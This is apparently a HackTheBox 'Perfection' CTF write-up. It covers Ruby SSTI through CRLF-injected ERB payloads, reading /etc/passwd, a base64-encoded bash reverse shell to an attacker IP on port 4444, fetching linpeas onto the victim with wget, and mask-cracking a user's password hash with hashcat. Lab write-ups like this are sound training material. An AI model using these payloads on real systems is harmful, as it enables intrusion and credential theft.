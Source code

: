 ```yaml
---
title: Perfection Writeup - HackTheBox
date: 2024-06-09
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
img_path: /assets/img/commons/perfection/
image: perfection.png
---
```


Hello!

In this write-up, we will dive into the **HackTheBox** [Perfection](https://app.hackthebox.com/machines/590) machine.
It is a **Linux** machine on which we will carry out a **CRLF attack** that will allow us to do **RCE** in order to get a Reverse Shell to gain access to the system.

Then, we will proceed, as always, to do a **Privilege Escalation** using the tool **Linpeas**. 

Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active.

```bash
ping -c 1 10.10.11.18
```

![ping](ping.png)


## Port scanning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.18 -oG allPorts
```

![nmap](nmap.png)

The only open ports that we see are 80 (HTTP server) and 22 (SSH), we can see more information of the services by executing:

```bash
nmap -sCV 22,80 10.10.11.18 -oN targeted -oX targetedXML
```


## Exploitation
---

If we open the IP address in firefox, we can see the following website:

![home](web_home.png)

At the bottom of the page we can see that the website is using the plugin **WEBrick 1.7.0**, searching some info of this plugin we can see that the website was build using Ruby. So we can try some **SSTI** (Server Side Template Injection), trying some payloads such as:

```ruby
<%= 7*7 %>
<%= foobar &>
```

We open **burpsuite** to see how the requests are made and try to modify them adding the previous payloads.

![burp](burpsuite1.png)

Vemos que el payload `<%= 7*7 %>` funciona:

![burp_resolve](request_resolve.png)

We can now try to open a file from the server (e.g. the `/etc/passwd` file)

```ruby
a%0A<%25%3d+File.open('etc/passwd').read+%25>
```

We see that the browser resolves our payload and we can see the content of the file:

![passwd_file](etc_passwd.png)

<br>

### Obtaining a Reverse Shell

First we will create a reverse shell script in bash:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.x.x/4444 0>&1"
```

We encode it to base64 and copy it to the clipboard:

```bash
cat revshell.sh | base64 | xclip -sel clip
```

And encode it back to url, using [cyberchef](https://gchq.github.io/CyberChef/).

We open netcat in listening mode: `nc -nvlp 4444` and make a new request adding the following payload:

```ruby
a%0A<%25%3d+system("echo+'<payload_base64_url_encoded>'+|base64+-d+|bash")%3b+%25>
```

If everything has worked correctly, we have a reverse shell but let's improve it by executing the following command (on the victim machine):

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![revshell](revshell.png)

Now we can access the user flag.

<br>

## Privilege escalation
---

We could run the command `sudo -l` to try to find superuser processes that we can run as the user Susan, but since we don't have the user's password, we can't do anything in this case.

So, for escalation, we are going to use the [Linpeas](https://github.com/peass-ng/PEASS-ng) tool that helps us to find possible attack vectors for escalation.

```bash
# En la máquina atacante
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python -m http.server 80

# En la máquina víctima
wget 10.10.x.x:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

We let Linpeas run in search of information. While it's running, let's see what is contained in the `pupilpath_credentials.db` file in the `Migration` directory.


We find a password hash for the user Susan, and linpeas has found a file that we can access and that may contain interesting information: `/var/mail/susan`. We see that it contains an email suggesting to change the password of all users to `{name}_{reversed-name}_{random-number-between-000000000-and-100000000}`.

With this structure and knowing the hash of the password we can run hashcat to decrypt the password:

```bash
echo "hash" > hash.txt
hashcat -m 1400 hash.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d"
```

When hashcat has finished, we will be able to access the system as superuser (by executing `sudo su`).

We have already compromised the whole system and (of course) we can now obtain the final flag of the challenge.


> H4Ppy H4ck1ng!
